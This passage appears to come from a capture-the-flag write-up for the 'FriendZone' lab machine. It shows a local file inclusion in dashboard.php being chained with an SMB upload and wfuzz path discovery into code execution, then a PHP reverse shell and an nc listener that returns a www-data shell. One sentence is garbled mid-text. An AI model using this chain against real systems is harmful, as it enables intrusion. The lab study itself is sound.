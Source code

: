 Back at our dashboard.php:

![254017551.png]({{site.baseurl}}/Images/Friendzone/254017551.png)

Interestingly it says that we are missing a parameter and also tells us how to use it.. smells like there will be good potential for an LFI.

putting in the example we are presented with an image that appears to be mocking us. Looking at the page source, we can see that images are loaded from a /images with two images in it, a.jpg and b.jpg

But there doesn’t appear to be anything useful with the images, looking at the second argument, called pagename we replace that value with another php file we know exists, login.php and we see the contents of the login.php file when we entered the wrong credentials… For the lolz we enter dashboard and cause a glitch in the matrix that almost crashes firefox (infinitely recursive page include)k]\er and appending .php to see if there is a matching php file, then executing it. To test this theory we generate a basic php file and upload it to the Development share using smb:
```
smb: \> put thoseguys.php
putting file thoseguys.php as \thoseguys.php (0.0 kb/s) (average 33.9 kb/s)
```

Now all we need to do is figure out where the Development folder is on the machine. To do this we a list of root level directories using our local machine and use WFUZZ to automate the task:
```
root@kali: ls / > rootdirs.txt
root@kali: wfuzz -b FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1 -w rootdir.txt https://administrator1.friendzone.red/dashboard.php\?image_id\=a.jpg\&pagename\=/FUZZ/Development/thoseguys
...
000001:  C=200      0 L	      38 W	    354 Ch	  "0"
000002:  C=200      0 L	      38 W	    354 Ch	  "bin"
000003:  C=200      0 L	      38 W	    354 Ch	  "boot"
000004:  C=200      0 L	      38 W	    354 Ch	  "dev"
000005:  C=200      0 L	      38 W	    354 Ch	  "email"
000006:  C=200      0 L	      38 W	    358 Ch	  "etc"
000007:  C=200      0 L	      38 W	    354 Ch	  "home"
```

Be sure to include the cookie (`-b`) argument as we need to be logged in to see the dashboard.php page.

Running this we quickly see that etc returns a different length than the other pages. Heading back to the browser we see that it is in fact in /etc/Development!

Now that we know we have code execution, time to turn it into a shell!

For this we update our thoseguys.php file with [pentestmonkey’s reverse shell php file](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) updating the ip and port and setting up a listener. Hitting the page we get a shell as www-data:
```
root@kali: nc -nlvp 1234
Listening on [0.0.0.0] (family 2, port 1234)
Connection from 10.10.10.123 44322 received!
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 13:57:47 up  1:28,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
